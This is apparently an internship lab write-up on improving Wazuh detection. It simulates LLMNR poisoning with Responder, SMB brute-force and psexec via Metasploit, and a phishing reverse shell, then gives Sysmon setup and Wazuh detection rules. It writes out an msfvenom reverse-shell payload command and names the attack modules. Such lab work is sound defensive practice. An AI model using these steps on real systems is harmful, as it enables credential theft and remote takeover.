# Wazuh Attack Detection Documentation

**Author:** Hassan Hijazi
**Internship Project:** Enhancing Wazuh’s Detection Capabilities  
**Scope:** Simulated Attacks • Sysmon Integration • Rule Development

---

## Simulated Attacks

### 1. LLMNR Poisoning & NTLMv2 Hash Capture

**Tools:** Responder

**Steps:**
```bash
sudo apt update
sudo apt install responder -y
```
1. Start Responder on Kali.

 

2. Wait for the victim Windows machine to query a non-existent hostname.

  

3. Responder captures the NTLMv2 hash.
   


4. Find the hash in Responder logs.
   
  
  
5. Crack it using `john`.
    
     
    

---

### 2. SMB Brute-force & Reverse Shell

**Tools:** Metasploit

**Steps:**
1. Start Metasploit
```bash
msfconsole
```
2. Use module: `auxiliary/scanner/smb/smb_login`
   
      

3. Check the options

    
   
4. Set required options (RHOSTS, PASS_FILE, etc.)

    
   
5. Run and retrieve valid credentials (e.g., `Administrator:password2`)

    
   
6. Use exploit: `exploit/windows/smb/psexec`

    
    
7. Set required options (RHOSTS,LHSOT, etc.) and Run. Get a Meterpreter session.

     

---

### 3. Phishing-based Reverse Shell

**Tools:** `msfvenom`, Responder server, browser

**Steps:**
1. Generate reverse shell payload using `msfvenom`
```bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST=<kali_ip> LPORT=4444 -f exe > shell.exe
```
2. On snother terminal, Host `shell.exe` on a server.
   
 

2. Visit URL from Windows machine to download.
   
 

4. Start listener on Kali: `msfconsole` + `exploit/multi/handler`.

   
 

6. Execute on Windows → Meterpreter shell opens.

   
 


---

##  Contributions

### Sysmon Setup

1. Install Sysmon and create `sysmonconfig.xml` configuration file in the same directory

  Configuration example:

   

Note:
   - Use `onmatch="include"` for filetring
  

2. Run via CMD (as Administrator):
```bash
Sysmon64.exe -accepteula -i sysmonconfig.xml
Sysmon64.exe -c
```
3. You should be able to find Sysmon under windows:
   
    

4. Run Notepad (as Administrator) and open `ossec.conf` in the directory below:

    
   
6. Add the configuration below:

    


---

##  Wazuh Rule Development

### Rule File
All rules live in:
```bash
/var/ossec/etc/rules/local_rules.xml
```

###  Custom Lists
Create lists in:
```bash
/var/ossec/etc/lists
```

Then include them in `ossec.conf`.

---

##  Example Rules

###  LLMNR Detection
```xml
<rule id="111122" level="10">
  <if_group>sysmon_event3</if_group>
  <field name="win.system.eventID" type="pcre2">^3$</field>
  <field name="win.system.providerName">Microsoft-Windows-Sysmon</field>
  <field name="win.eventdata.DestinationPort" type="pcre2">^5355$</field>
  <description>Sysmon - LLMNR request via UDP 5355</description>
</rule>
```

###  SMB Detection
```xml
<rule id="111124" level="10">
  <if_group>sysmon_event3</if_group>
  <field name="win.eventdata.destinationPort" type="pcre2">^445$</field>
  <list field="win.eventdata.DestinationIp" lookup="not_match_key">etc/lists/trusted_smb_hosts</list>
  <description>SMB connection to untrusted device</description>
</rule>
```

### Correlated LLMNR + SMB
```xml
<rule id="111128" level="15" timeframe="10">
  <if_sid>111123</if_sid>
  <if_matched_sid>111125</if_matched_sid>
  <description>LLMNR-based MITM attack with SMB credential capture</description>
</rule>
```

### Unauthorized Remote Login
```xml
<rule id="111130" level="13">
  <if_sid>92651</if_sid>
  <field name="win.eventdata.logonType" type="pcre2">10</field>
  <list field="win.eventdata.ipAddress" lookup="not_match_key">etc/lists/trusted_remote_hosts</list>
  <description>Unauthorized remote login</description>
</rule>
```

###  Reverse Shell Detection
```xml
<rule id="111144" level="15" timeframe="20">
  <if_sid>111141</if_sid>
  <if_matched_sid>111143</if_matched_sid>
  <description>Reverse shell detected</description>
</rule>
```

---

## Directory Structure

```
/var/ossec/
├── etc/
│   ├── rules/
│   │   └── local_rules.xml
│   ├── lists/
│   │   └── trusted_smb_hosts
│   │   └── trusted_remote_hosts
│   └── ossec.conf
```
